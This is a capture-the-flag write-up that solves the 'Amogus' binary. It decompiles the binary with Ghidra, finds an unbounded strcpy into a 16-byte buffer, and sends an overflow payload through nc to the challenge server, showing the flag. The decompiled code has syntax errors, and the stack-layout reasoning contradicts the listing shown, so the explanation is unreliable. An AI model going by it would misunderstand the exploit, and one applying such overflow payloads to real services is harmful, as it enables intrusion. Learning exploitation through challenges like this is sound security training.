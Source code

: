1. Analyse the file with Ghidra. main() shows this:
```int main(void) {
        long in_FS_OFFSET;
        char local_28[24];
        long local_10;

        local_10 = *(long *)(in_FS_OFFSET + 0x28);

        puts("Welcome to Amogus.\n");
        display();
        puts("Enter your name:\n");

        __isoc99_scanf("%s", local_28);
        gameplay(local_28);

        if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                __stack_chk_fail();  // Stack canary check
        }

        return 0;
}```

gameplay() shows this:
```void gameplay(char *param_1) {
        int iVar1;
        FILE *_stream;
        long in_FS_OFFSET;
        char local_68[16];
        char local_58[16];
        char local_48[64];
        long local_10;

        local_10 = *(long *)(in_FS_OFFSET + 0x28);

        __builtin_strncpy(local_68, "DEAD", 5);
        strcpy(local_58, param_1);
        iVar1 = strcmp(local_58, "ALIVE");

        if (iVar1 == 0) {
                _stream = fopen("flag.txt", "r");

                if (_stream == NULL) {
                printf("Error in opening the flag file. Flag file might be missing :(\n"));
                } else {
                fgets(local_48, 0x2d, _stream);
                puts("How are you still alive?!\n");
                puts(local_48);
                }
        } else {
                iVar1 = strcmp(local_58, "DEAD");

                if (iVar1 != 0) {
                puts("ERROR. ERROR. AMONG US NOT RESPONDING.");
                exit(0);
        }

        puts("You are a crewmate. \n");
        FUN_00401160(1);
        puts("You go to Medbay to finish your tasks.\n");
        FUN_00401160(1);
        puts("Suddenly, you hear a gunshot... The world goes dark. \n");
        FUN_00401160(1);
        puts("GAME OVER. YOU LOST :("));
    }

    if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
        __stack_chk_fail();
    }

    return;
}```

2. Looking at the decompiled code, I noticed this suspicious line:
   ```
   strcpy(local_58, param_1);  
   ```

   `strcpy()` copies user input without any size validation into a 16-byte buffer (`local_58`). This is a classic **buffer overflow** vulnerability.

3. Then, we look at the stack layout to determine where we should overflow into:

```
char local_68[16];  // Initially contains "DEAD"
char local_58[16];  // Your input buffer
char local_48[64];  // Flag storage (unused in the exploit)
```

4. Since the simple approach failed and I saw the unsafe `strcpy()`, I thought about overflowing `local_58` to corrupt adjacent memory. Looking at the stack layout:

   ```
   char local_68[16];  // "DEAD" gets stored here
   char local_58[16];  // Our input buffer
   char local_48[64];  // Flag storage
   ```

5. Since local_58 is right before local_68, I could fill up the entire 16-byte local_58 with random characters, and then overflow "ALIVE\x00" into local_68. If `local_68` (which normally contains "DEAD") gets overwritten with "ALIVE", it might affect the string comparison and trigger the flag condition.

6.Use 16 bytes of "A" to fill up local_58, and include "ALIVE":

```
└─$ python -c 'print("A"*16 + "ALIVE\x00")' | nc 43.205.113.100 8292
    Welcome to Amogus.

    ⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀ ⢀⣀⣤⣤⣤⣀⣀⣀⣀⡀⠀⠀⠀⠀⠀⠀⠀  
    ⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀ ⣼⠟⠉⠉⠉⠉⠉⠉⠉⠙⠻⢶⣄⠀⠀⠀⠀   
            ⣾⡏⠀⠀⠀⠀⠀⠀     ⠙⣷⡀⠀    
    ⠀⠀⠀⠀⠀⠀⠀⠀⠀ ⣸⡟⠀⣠⣶⠛⠛⠛⠛⠛⠛⠳⣦⡀⠀⠘⣿⡄    
    ⠀⠀⠀⠀⠀⠀⠀⠀ ⢠⣿⠁⠀⢹⣿⣦⣀⣀⣀⣀⣀⣠⣼⡇⠀⠀⠸⣷⠀⠀  
    ⠀⠀⠀⠀⠀⠀⠀⠀ ⣼⡏⠀⠀⠀⠉⠛⠿⠿⠿⠿⠛⠋⠁⠀⠀⠀⠀⣿    
            ⣿⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀ ⠀  ⢻⡇⠀  
            ⣸⡇⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀   ⢸⡇   
    ⠀⠀⠀⠀⠀⠀⠀ ⣿⠁⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢸⣧⠀  
    ⠀⠀⠀⠀⠀⠀⠀ ⡿⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠈⣿⠀  
    ⠀⠀⠀⠀⠀⠀⠀⣾⡇⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣿⠀  
    ⠀⠀⠀⠀⠀⠀⠀⣿⠃⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀  ⠀⠀⣿⠀  
    ⠀⠀⠀⠀⠀⠀⢰⣿⠀⠀⠀⠀⣠⡶⠶⠿⠿⠿⠿⢷⣦⠀⠀⠀⠀⠀  ⣿⠀  
    ⠀⠀⣀⣀⣀⠀⣸⡇⠀⠀⠀⠀⣿⡀⠀⠀⠀⠀⠀⠀⣿⡇⠀⠀⠀⠀⠀⠀ ⣿⠀ 
    ⣠⡿⠛⠛⠛⠛⠻⠀⠀⠀⠀⠀⢸⣇⠀⠀⠀⠀⠀⠀⣿⠇⠀⠀⠀⠀⠀ ⠀⣿⠀ 
    ⢻⣇⠀⠀⠀⠀⠀⠀⠀⠀⠀⢀⣼⡟⠀⠀⢀⣤⣤⣴⣿⠀⠀⠀⠀⠀⠀  ⣿⠀ 
    ⠈⠙⢷⣶⣦⣤⣤⣤⣴⣶⣾⠿⠛⠁⢀⣶⡟⠉⠀⠀⠀⠀⠀⠀⠀⠀⠀⢀⡟⠀  
                ⣿⣆⡀⠀⠀⠀⠀⠀⢀⣠⣴⡾⠃    
                ⠀⠀⠈⠛⠻⢿⣿⣾⣿⡿⠿⠟⠋⠁⠀⠀   
    Enter your name:

    How are you still alive?!

    shaktictf{ch@ng3d_fat3_wh3n_I_s@w_r3dv3nt}
```
